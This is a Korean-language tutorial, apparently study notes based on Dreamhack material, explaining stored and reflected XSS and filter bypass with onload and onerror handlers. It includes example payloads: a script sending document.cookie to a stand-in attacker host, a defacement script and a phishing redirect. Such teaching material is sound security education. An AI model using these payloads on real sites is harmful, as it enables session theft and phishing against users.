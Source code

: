 ## XSS

클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에 해당 스크립트를 실행할 수 있습니다. 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의 기능을 수행할 수 있습니다.
대표적으로 Stored XSS와 Reflected XSS가 있습니다.

<img src="https://velog.velcdn.com/images/silvergun8291/post/3f2faccd-2571-46bf-a3ca-1eba7980daae/image.png">

<br>

## Stored XSS

Stored XSS는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS입니다. 대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드하는 방식이 있습니다.

<br>

## Reflected XSS

Reflected XSS는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다. 대표적으로 검색창에서 스크립트를 포함해 검색하는 방식이 있습니다.
Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생하기 때문에, 타 이용자가 악성 스크립트가 포함된 링크에 접속하도록 유도해야 합니다.

<br>

## XSS 스크립트의 예시

#### 쿠키 및 세션 탈취 공격 코드

```javascript
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

#

#### 페이지 변조 공격 코드

```javascript
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

#

#### 위치 이동 공격 코드

```javascript
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

<br>


## XSS 필터링 우회

여러 방법중에 이벤트 핸들러 속성을 이용한 방법을 알아보면

### onload 이벤트 핸들러

해당 태그가 요청하는 데이터 로드에 성공하면 이벤트 핸들러를 실행합니다.

```html
<img src="https://dreamhack.io/valid.jpg" onload="alert(document.domain)">
```

데이터 로드가 성공하도록 유도해서 뒤에 코드를 실행시킬 수 있습니다.

#

### onerror 이벤트 핸들러

해당 태그가 요청하는 테이터 로드가 실패하면 이벤트 핸들러를 실행합니다.

```html
<img src="valid.jpg" onerror="alert(document.domain)">
```

데이터 로드가 실패하도록 유도해서 뒤에 코드를 실행시킬 수 있습니다.

#
---
#

> 출처 : https://dreamhack.io/
